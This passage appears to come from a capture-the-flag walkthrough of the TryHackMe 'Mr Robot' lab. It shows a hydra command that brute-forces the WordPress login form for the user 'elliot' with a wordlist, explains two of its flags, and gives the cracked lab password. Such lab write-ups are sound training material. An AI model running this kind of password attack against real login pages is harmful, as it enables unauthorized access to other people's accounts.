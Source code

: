 ![wp-incorrect-passwordERR](./images/THM-MrRobot-CTF-Screenshots/IncorrectPwError.png)

### Okay... Now that I found some potential usernames, time to crack some passwords.

this time I'm using hydra the same way but the opposite (to crack passwords instead of usernames).


```bash
hydra -l elliot -P refined_list.txt <target_ip> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -VV -t 35
```
`-l: Static Username.`

`-P: List of password`

### Hydra found a valid password:

ER28-0652

![hydra-password-result](./images/THM-MrRobot-CTF-Screenshots/HydraPwResult.png)
